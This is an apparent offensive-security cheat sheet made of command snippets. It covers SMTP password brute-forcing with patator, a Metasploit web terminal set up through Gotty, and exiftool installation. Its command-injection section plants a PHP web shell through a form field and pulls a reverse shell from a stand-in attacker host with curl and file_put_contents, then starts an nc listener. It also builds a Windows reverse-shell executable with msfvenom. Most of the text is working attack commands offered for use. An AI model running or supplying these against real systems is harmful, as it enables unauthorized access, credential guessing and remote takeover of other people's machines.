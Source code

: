 # SMTP bruteforce
$ patator smtp_login host=192.168.17.129 user=Ololena password=FILE0 0=/usr/share/john/password.lst
$ patator smtp_login host=192.168.17.129 user=FILE1 password=FILE0 0=/usr/share/john/password.lst 1=/usr/share/john/usernames.lst
$ patator smtp_login host=192.168.17.129 helo='ehlo 192.168.17.128' user=FILE1 password=FILE0 0=/usr/share/john/password.lst 1=/usr/share/john/usernames.lst
$ patator smtp_login host=192.168.17.129 user=Ololena password=FILE0 0=/usr/share/john/password.lst -x ignore:fgrep='incorrect password or account name'
Metasploit Web terminal via Gotty
$ service postgresql start
$ msfdb init
$ apt-get install golang
$ mkdir /root/gocode
$ export GOPATH=/root/gocode
$ go get github.com/yudai/gotty
$ gocode/bin/gotty -a 127.0.0.1 -w msfconsole
# open in browser http://127.0.0.1:8080
Get full shell with POST RCE
attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Bwhoami&submit=submit' 'http://victum.tk/command.php'

attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Becho+%27%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%27+%3E+..%2Fshell.php&submit=submit' 'http://victum.tk/command.php'

attacker:~$ curl http://victum.tk/shell.php?cmd=id

# download reverse shell to server (phpshell.php)
http://victum.tk/shell.php?cmd=php%20-r%20%27file_put_contents%28%22phpshell.php%22,%20fopen%28%22http://attacker.tk/phpshell.txt%22,%20%27r%27%29%29;%27

# run nc and execute phpshell.php
attacker:~$ nc -nvlp 1337
Exiftool - Read and write meta information in files
$ wget http://www.sno.phy.queensu.ca/~phil/exiftool/Image-ExifTool-10.13.tar.gz
$ tar xzf Image-ExifTool-10.13.tar.gz
$ cd Image-ExifTool-10.13
$ perl Makefile.PL
$ make
$ ./exiftool main.gif
Get SYSTEM with Admin reverse_shell on Win7
msfvenom –p windows/shell_reverse_tcp LHOST=192.168.56.102 –f exe > danger.exe

#show account settings
net user <login>

# download psexec to kali
https://technet.microsoft.com/en-us/sysinternals/bb897553.aspx
